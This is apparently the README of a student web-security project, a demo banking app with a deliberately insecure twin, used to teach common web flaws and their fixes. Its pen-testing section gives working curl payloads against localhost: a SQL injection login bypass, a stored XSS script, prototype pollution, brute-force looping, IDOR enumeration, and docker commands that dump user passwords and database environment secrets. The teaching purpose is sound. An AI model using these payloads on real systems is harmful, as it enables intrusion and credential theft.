










# bluepeak-bank
a simple banking web app used to demonstrate security vulnerabilities, test malicious attacks, and mitigations against them.

***Note***: this is the secure version of our app, the insecure version which can be used to test vulnerabilities and exploits can be found here: [bluepeak-insecure](https://github.com/willfranx/bluepeak-insecure)

The live site can be found here: [BluePeak Bank](https://blue-bush-0fb62051e.3.azurestaticapps.net)

## Tech Stack

### **Back-end**
- Node.js
- Express.js 
- PostgreSQL  
- Argon2 (password hashing)
- JSON Web Tokens (Access & Refresh Tokens)
- Nodemailer (OPT verification)
- express-rate-limit (rate limits)
- Zod (validations)

### **Front-end**
- React (functional components, hooks)
- Vite (development build tooling)
- React Router (`react-router-dom`) for client routing
- Axios for API requests (with credentials + interceptors)
- Tailwind-style utility classes / CSS for styling

### **DevOps / Infrastructure**
- Azure App Service 
- Azure Database for PostgreSQL
- Azure Managed Identity 
- Github Actions (CI/CD)
- Github Secrets
- Docker 

---

## **Security**

This backend is built with strong security:

- **JWT Authentication**
  - **Access Token:** short-lived (10 minutes), sent in `Authorization` header and used for route protection
  - **Refresh Token:** long-lived (12 hours), stored in `HTTP-only` cookies and used to renew access tokens securely

- **Password Security:** passwords hashed with **Argon2** for strong protection

- **Email Verification:** OTPs sent via **Nodemailer + Gmail** to confirm user account actions

- **Secrets & Environment:** secret keys stored in **GitHub Secrets** and **Azure App Service**

- **Other Protections include:** CORS, Helmet, rate limiting, and request validation


## Project Structure

```text
backend/
├── controllers/       # Request handlers & Business logic
├── routes/            # API routes
├── middleware/        # Security & validation middleware
├── utils/             # Helpers (tokens, email, etc.)
├── database/          # Environment + DB setup
└── server.js          # Main app entry

frontend/
├── src/
│   ├── pages/          # Page-level components (Accounts, Profile, Login, etc.)
│   ├── components/     # Small reusable UI components (NavBar, etc.)
│   ├── context/        # Auth context + protected route helper
│   ├── services/       # API client (axios) and helpers
│   └── assets/         # Images and static assets
└── public/             # Static public files
```

## **Setup**

### **Clone repository**
```sh
git clone https://github.com/cs467-web-sec-research-project-fall-25/bluepeak-bank.git
```

### **Create environment file**

```sh
cp .env.example .env and provide environment variables  
```

### **Recommended: Run the full app with Docker Compose**

The repository is configured to run the frontend, backend and database together with Docker Compose. This is the easiest way to bring up a complete local environment:

```sh
docker compose up --build
```

This will build and start the React frontend, the Express API, and a PostgreSQL container.

### **Alternative method: Run services individually**

If you prefer to run services individually during development, you can still run the backend and frontend separately:

- Backend (from the `backend/` folder):

```sh
cd backend
npm install
npm run dev
```

- Frontend (from the `frontend/` folder):

```sh
cd frontend
npm install
npm run dev
```

When running the frontend locally without Docker, set `VITE_API_URL` in your frontend environment (for example `VITE_API_URL=http://localhost:8001`) so the client can reach the API.

## Front-end (Client side)

To start the app locally, simply clone the repo and run:

`docker compose up`

You will be greeted by the home/login page:



If you are a new user, you will first need to create a new account. You will need a user name, email, and secure password.



This page will send your email a one-time password and redirect you to the verify page. You will need to enter this password here to verify your account.





Once your email has been verified, you can log in with the password you set, and view your accounts page. It will look like this, until you have added your first account, which you can do by selecting "Add your first account".

***Note***: Bluepeak bank does not use any real money. You will be entering numbers on a screen as a user, this app does not connect in any way to a real bank account or monetary institution.



You can add a name for your account, select a checking or saving account type, and an amount for your first deposit.



The rest of the pages can be navigated to using the navbar on the top of the app.


These include: 

the transactions page, where you can see the transaction history of your accounts. Toggle between checking and saving to see the related transaction history.



the transfer page, where you can deposit to, withdraw from, and transfer to your own accounts, and those of another user by email.



and lastly, the profile page, where you can view and change your username and email, as well as your password. Changing your email will require re-verification of the new email. You can also delete your user account here. This will require a confirmation and cannot be undone.



## Back-end (Server side)


The backend service is built with **Node.js**, **Express**, **PostgreSQL**. It provides service such as authentication, user management, transactions, and communication with the React frontend.

The entire system is containerized and deployed on **Azure App Service**. It is automated with CI/CD pipeline using **GitHub Actions**.

## Database Setup

Database schema and initial data are managed with **SQL files** (DDL for schema, DML for initial data).

### Steps to set up the database:

```sh
# 1. Create the database 
# 2. Run the SQL files in order (DDL first, then DML)
psql -h <host> -U <user> -d <database> -f ./database/ddl_02.sql
psql -h <host> -U <user> -d <database> -f ./database/dml_02.sql

```

---

## **Running with Docker**

```sh
docker compose up --build
```

Docker will start:

* Backend API
* PostgreSQL
* React

---

## **API Endpoints**

### **Users**

```
POST /api/auth/register
POST /api/auth/login
POST /api/auth/refresh-token
POST /api/auth/logout
POST /api/auth/verify-otp
GET /api/users/profile
PUT /api/users/update-password
```

### **Accounts**

```
GET /api/accounts
POST /api/accounts
DEL /api/accounts/:id
```

### **Transactions**

```
GET /api/transactions
POST /api/transactions/deposit
POST /api/transactions/withdraw
POST /api/transactions/transfer
POST /api/transactions/send
```

---


## Attacks/exploits and mitigations

### 1. Plaintext Password Storage

**Exploit**: User passwords were stored and returned in plaintext during registration and login.  
**Impact**: Anyone with access to logs, network traffic, or the database could steal all credentials instantly.

#### Mitigation Implemented:

- All passwords are hashed using Argon2 before being stored.

- API responses never return password fields.

- Sensitive database fields are excluded from all queries and serializers.

### 2. Login via GET (Credential Leakage)

**Exploit**: Login credentials were transmitted through query parameters.  
**Impact**: GET URLs leak sensitive information into browser history, logs, proxies, analytics, and referrer headers.

#### Mitigation Implemented:

- Secure version uses POST requests only.

- Credentials are sent in the request body, not the URL.

- Zod validation checks ensure only properly structured requests pass.

### 3. IDOR – Insecure Direct Object Reference

**Exploit**: Anyone could query GET /api/accounts/:id and retrieve any user’s account.  
**Impact**: Full access to every user’s bank accounts without authentication.

#### Mitigation Implemented:

- All endpoints are protected with JWT authentication.

- Account queries include strict user ownership checks.

- Unauthorized access returns 403 consistently.

### 4. SQL Injection (Auth Bypass)

**Exploit**: User input was directly interpolated into SQL queries.  
**Impact**: Attackers could bypass authentication or dump sensitive tables.

#### Mitigation Implemented:

- All queries use parameterized SQL via pg prepared statements.

- Zod validation sanitizes incoming input.

- SQL injection payloads now return 400 with explicit error messages.

### 5. Stored XSS (Malicious Name Field)

**Exploit**: Unsanitized user input stored <script> tags in the database.  
**Impact**: Attacker-controlled JavaScript executes whenever data is rendered.

#### Mitigation Implemented:

- Frontend disallows any HTML injection.

- Backend sanitizes inputs and rejects dangerous patterns.

- React never uses dangerouslySetInnerHTML.

### 6. Insecure Deserialization / Prototype Pollution

**Exploit**: Sending a __proto__ property modified global object prototypes.  
**Impact**: Could escalate privileges (e.g., spoof isAdmin: true).

#### Mitigation Implemented:

- All request bodies are validated strictly with Zod schemas.

- Dangerous object keys like __proto__, constructor, prototype are rejected.

- Secure version never exposes unsafe deserialization endpoints.

### 7. No Session Token After Login

**Exploit**: No cookies, no session tracking, and no user state.  
**Impact**: Anyone could impersonate any user with a single API call.

#### Mitigation Implemented:

- JWT authentication added:

- Access Token (short-lived)

- Refresh Token (HTTP-only cookie)

- Tokens are required for all protected routes.

### 8. No Rate Limiting (Brute Force Attacks)

**Exploit**: Login endpoint allowed unlimited guesses.  
**Impact**: Attackers could brute-force passwords at scale.

#### Mitigation Implemented:

- express-rate-limit added to login, OTP, and sensitive routes.

- Repeated failed attempts temporarily lock the endpoint.

### 9. Misconfigured CORS (Wildcard Origin)

**Exploit**: Backend allowed Access-Control-Allow-Origin: *.  
**Impact**: Any website could make authenticated requests on behalf of users.

#### Mitigation Implemented:

- Strict CORS origin whitelist

- Cookies marked SameSite=Strict

- No cross-domain credential leakage

### 10. Weak Logging (Morgan Only)

**Exploit**: Morgan only logs paths + status codes.  
**Impact**: No forensic ability to detect attacks or suspicious patterns.

#### Mitigation Implemented:

- Structured security logging

- Logging of failed logins, invalid tokens, suspicious behavior

- Improved log visibility for debugging and audit

### 11. Direct Database Dump

**Exploit**: Database allowed direct credential exposure through environment variables.  
**Impact**: Anyone with container access could dump all data.

#### Mitigation Implemented:

- Sensitive values stored in Azure Key Vault / GitHub Secrets

- Environment variables no longer stored in plaintext in containers

- Database users given scoped permissions

## Pen testing (How-to)

## 1. Plaintext Password Storage

* **Vulnerability:** Sensitive data (password) exposed in API response.
* **Command:**
    ```bash
    curl -s -X POST "http://localhost:8000/api/auth/insecure/register" \
      -H "Content-Type: application/json" \
      --data '{"name":"demo_pw","email":"demo_pw@example.local","username":"demo_pw","password":"secretpw"}'
    ```
* **Returns:** 


* **Analysis:** The user's plaintext password (`secretpw`) appears unmasked in the API response after registration.  This is a severe risk, as any observer (e.g., sniffing network traffic, server logs) can immediately steal the password.

---

## 2. Login via GET (Credential Leakage)

* **Vulnerability:** Transmission of credentials in URL query parameters.
* **Command:**
    ```bash
    curl "http://localhost:8000/api/auth/insecure/login?email=demo_pw@example.local&password=secretpw"
    ```
* **Returns:** 


* **Analysis:** Credentials submitted via a **GET** request appear directly in the **URL query parameters**. This causes them to be logged in browser history, web server logs, and potentially network logs, leading to **credential leakage**.

---

## 3. IDOR – Direct Account Access

* **Vulnerability:** **Insecure Direct Object Reference (IDOR)** on account data.
* **Command:**
    ```bash
    curl "http://localhost:8000/api/accounts/insecure/1"
    ```
* **Browser:**
    ```javascript
    fetch("http://localhost:8000/api/accounts/insecure/1").then(r=>r.json()).then(console.log)
    ```
* **Returns:** 


* **Analysis:** The application uses a simple sequential ID (`1`) in the API endpoint.  **Any user ID** is accessible without proper **authorization checks**, allowing an attacker to enumerate and view other users' private account data by simply changing the ID.

---

## 4. SQL Injection – Auth Bypass

* **Vulnerability:** **SQL Injection** for authentication bypass.
* **Command:**
    ```bash
    curl -s "http://localhost:8000/api/auth/insecure/login?email=%27%20OR%20%271%27=%271%27%20--%20&password=foo"
    ```
* **Returns:** 


* **Analysis:** The injected string `%27%20OR%20%271%27=%271%27%20--%20` (equivalent to `' OR '1'='1' -- `) manipulates the server's SQL query.  This bypasses authentication by creating a perpetually **TRUE** condition in the `WHERE` clause, logging the attacker in without valid credentials.

---

## 5. Stored XSS – Malicious Name Input

* **Vulnerability:** **Stored Cross-Site Scripting (XSS)** via user registration.
* **Command:**
    ```bash
    curl -s -X POST "http://localhost:8000/api/auth/insecure/register" \
      -H "Content-Type: application/json" \
      --data '{"name":"<script>alert(`XSS`)</script>","email":"xss@example.local","username":"xss","password":"PwD!1234"}'
    ```
* **Returns:** 


* **Analysis:** The application fails to properly sanitize or escape the **name field**. A malicious script is stored in the database and executes whenever a user views a page that renders the name, leading to a **Stored XSS** vulnerability.

---

## 6. Insecure Deserialization / Prototype Pollution

* **Vulnerability:** **Insecure Deserialization** leading to **Prototype Pollution**.
* **Command:**
    ```bash
    curl -s -X POST "http://localhost:8000/api/auth/insecure/deserialize" \
      -H "Content-Type: application/json" \
      --data '{"__proto__": {"isAdmin": true}}'
    ```
* **Returns:** 

* **Analysis:** The endpoint uses an insecure deserialization method, allowing the attacker to inject the `__proto__` property. This can **pollute global object prototypes** in JavaScript environments, potentially escalating privileges (e.g., making all users administrators) or causing denial of service.

---

## 7. No Session Token After Login

* **Vulnerability:** Missing **Session Management** implementation.
* **Command:**
    ```bash
    curl -s -X POST http://localhost:8000/api/auth/insecure/login \
      -H "Content-Type: application/json" \
      --data '{"username":"demo_pw","password":"secretpw"}'
    ```
* **Returns:**  


* **Analysis:** No **JWT**, **cookies**, or other session-related data (e.g., token, session ID) is returned in the API response after a successful login, indicating a lack of proper session state management.

---

## 8. Brute Force – No Rate Limit

* **Vulnerability:** Lack of **Rate Limiting** on the login endpoint.
* **Command:**
    ```bash
    for i in {1..10}; do
      curl -s -X POST http://localhost:8000/api/auth/insecure/login \
        -H "Content-Type: application/json" \
        --data '{"username":"demo_pw","password":"wrong"}' > /dev/null
    done
    ```

 * **Returns:**   


* **Analysis:** The login endpoint allows for an **unlimited number of password attempts** in a short period without any **rate limit**, **throttle**, or **account lockout** mechanism, making it trivial to perform a **brute-force attack**.

---

## 9. Misconfigured CORS

* **Vulnerability:** **Misconfigured Cross-Origin Resource Sharing (CORS)**.
* **Command:**
    ```bash
    curl -i "http://localhost:8000/api/accounts/insecure/1"
    ```

  * **Returns:**  


* **Analysis:** (Based on command, expect analysis to show a permissive `Access-Control-Allow-Origin` header like `*`) A misconfigured CORS policy, likely using a wildcard (`*`), allows any external domain to make authenticated requests to the API.

---

## 10. Weak Logging with Morgan

* **Vulnerability:** Insecure logging (often storing sensitive data).
* **Command:**
    ```bash
    curl -X POST http://localhost:8000/api/auth/insecure/login \
      -H "Content-Type: application/json" \
      --data '{"username":"admin","password":"wrong"}'
    ```

  * **Returns:**   


* **Analysis:** Logging middleware (e.g., Morgan in Express.js) is configured to log the **full request body**, including the attempted password (`wrong`). This leaks sensitive user data into server logs.

---

## 11. Direct DB Dump

* **Vulnerability:** Unprotected internal database access.
* **Command:**
    ```bash
    docker exec -it bluepeak-db psql -U user123 -d db123 -c \
    "SELECT userid, name, email, password FROM users;"
    ```

 * **Returns:**    

* **Analysis:** The database container is directly accessible using its internal name (`bluepeak-db`) and weak, known credentials (`user123`/`db123`). This allows an attacker with container access to perform a **direct dump of all user data**, including **unhashed passwords** (based on finding #1).

---

## 12. Dumping Environment Variables

* **Vulnerability:** Sensitive data stored in environment variables.
* **Command:**
    ```bash
    docker exec -it bluepeak-db env | grep POSTGRES
    ```
  * **Returns:**  

